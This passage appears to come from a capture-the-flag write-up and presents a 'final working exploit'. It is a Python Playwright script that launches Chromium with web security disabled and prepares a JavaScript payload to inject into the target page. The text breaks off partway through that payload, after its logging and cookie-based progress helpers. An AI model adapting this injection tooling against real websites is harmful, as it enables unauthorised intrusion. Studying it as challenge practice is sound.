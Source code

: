 ### Final Working Exploit

This is the final version of the Python script using Playwright. It intercepts the page, injects a Base64-encoded JavaScript payload that contains the complete, corrected exploit logic, and successfully retrieves the flag by automating the process within the target's own environment.

```python
# puppeteer_proxy_logger.py
import asyncio
import base64
from playwright.async_api import async_playwright
import json
import re

def xor_decrypt(base64_data: str, key: str) -> bytes:
    """Helper function to decrypt XOR-encrypted data for logging purposes."""
    binary = base64.b64decode(base64_data)
    out = bytearray(len(binary))
    for i in range(len(binary)):
        out[i] = binary[i] ^ ord(key[i % len(key)])
    return out

async def main():
    async with async_playwright() as pw:
        browser = await pw.chromium.launch(headless=False, args=["--disable-web-security"])
        page = await browser.new_page()

        # --- JavaScript Exploit Payload with all fixes ---
        # This automates the exploit, handles 400 errors by reloading, and correctly parses the session ID.
        exploit_payload = """
            setTimeout(() => {
                // --- Setup for writing visible output to the HTML page ---
                document.body.innerHTML = '<h1>Exploit Initializing...</h1><pre id="exploit-log" style="white-space: pre-wrap; word-break: break-all; border: 1px solid #ccc; padding: 10px;"></pre>';
                const logElement = document.getElementById('exploit-log');
                const logToPage = (message) => {
                    if (typeof message === 'object') {
                        logElement.textContent += JSON.stringify(message, null, 2) + '\\n';
                    } else {
                        logElement.textContent += message + '\\n';
                    }
                };

                // --- Cookie-based State Management to survive page reloads ---
                const setProgress = (step, sessionId) => {
                    const state = { step, sessionId, timestamp: Date.now() };
                    document.cookie = `exploit_progress=${JSON.stringify(state)};path=/`;
                    logToPage(`[+] Progress saved: At step '${step}'.`);
                };

                const getProgress = () => {
                    const match = document.cookie.match(/exploit_progress=([^;]+)/);
                    if (match) {
                        try { return JSON.parse(match[1]); } catch (e) { return null; }
                    }
                    return null;
                };

                const clearProgress = () => {
                    logToPage('[+] Clearing progress cookie.');
                    document.cookie = 'exploit_progress=;path=/;expires=Thu, 01 Jan 1970 00:00:00 GMT';
                };
```